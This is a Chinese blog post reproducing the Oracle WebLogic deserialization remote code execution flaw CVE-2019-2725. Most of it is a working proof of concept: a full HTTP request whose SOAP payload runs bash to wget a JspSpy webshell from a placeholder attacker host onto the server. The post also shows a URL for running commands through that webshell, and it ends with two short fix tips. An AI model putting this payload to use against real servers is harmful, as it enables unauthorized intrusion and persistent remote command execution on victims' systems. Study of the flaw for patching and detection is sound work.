


# Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725） - 不愿透露姓名的汤姆猫 - 博客园

> 原文：[`www.cnblogs.com/wenyoudo/p/14373932.html`](https://www.cnblogs.com/wenyoudo/p/14373932.html)

# **目录：**

* * *

0x00 漏洞描述

0x01 影响范围

0x02 漏洞复现

0x03 漏洞修复

* * *

**0x00 漏洞描述**

* * *

CVE-2019-2725 是一个 Oracle weblogic 反序列化远程命令执行漏洞，这个漏洞依旧是根据 weblogic 的 xmldecoder 反序列化漏洞，通过针对 Oracle 官网历年来的补丁构造 payload 来绕过。

**0x01 影响范围**

* * *

　　weblogic 10.x

　　weblogic 12.1.3

**0x02 漏洞复现**

* * *

漏洞存在于：_async/AsyncResponseService，访问地址可以访问则存在漏洞

登陆成功访问：http://url/_async/AsyncResponseService（成功访问则有该漏洞）

使用 burp 抓包然后构造 payload 发送到服务器，使服务器执行命令

 

访问：http://url/_async/webshell.jsp?pwd=123&cmd=whoami

POC：

POST /_async/AsyncResponseService HTTP/1.1
Host: IP:PORT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 850
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope
>
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext >
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>wget http://HackerIP:8080/JspSpy.jsp.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/2.jsp</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>

** 0x03 漏洞修复**

* * *

1、升级本地 JDK 环境

2、及时安装官方补丁

* * *